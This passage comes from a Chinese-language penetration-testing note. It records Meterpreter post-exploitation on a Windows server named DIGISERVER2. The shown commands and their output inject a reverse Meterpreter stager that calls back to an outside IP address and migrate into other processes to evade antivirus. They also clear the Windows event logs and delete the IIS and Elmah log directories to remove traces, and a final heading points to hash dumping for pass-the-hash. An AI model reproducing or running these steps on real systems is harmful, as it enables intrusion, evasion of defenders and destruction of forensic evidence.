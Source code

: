 #### Duplicate
為避免session壞掉，多開幾個session
```cmd!
meterpreter > run post/windows/manage/multi_meterpreter_inject

[*] Running module against DIGISERVER2
[*] Creating a reverse meterpreter stager: LHOST=159.89.115.68 LPORT=4444
[+] Starting Notepad.exe to house Meterpreter Session.
[+] Process created with pid 16972
[*] Injecting meterpreter into process ID 16972
[*] Allocated memory at address 0x01eb0000, for 296 byte stager
[*] Writing the stager into memory...
[+] Successfully injected Meterpreter in to process: 16972
```

#### Proccess Migrate
注入到其他程序，能夠一定程度規避掃毒軟體
也能以程序使用者的身分進行動作
Migrate後才能用`run post/windows/gather/dumplinks` ...etc

```cmd!
meterpreter > run post/windows/manage/migrate

[*] Running module against DIGISERVER2
[*] Current server process: rundll32.exe (776)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1668
[+] Successfully migrated into process 1668
```

#### Remove Traces
##### 清理系統事件
```cmd!
meterpreter > clearev
[*] Wiping 97 records from Application...
[*] Wiping 415 records from System...
[*] Wiping 111 records from Security...
```

##### 清理IIS記錄檔
```cmd!
rmdir /q /s C:\inetpub\logs\
```

##### 清理Elmah Error記錄檔
```CMD!
rmdir /q /s C:\WebApp\MyStore.WebUI\App_Data\Elmah.Errors
```


### HashDump
用於Pass The Hash Attack

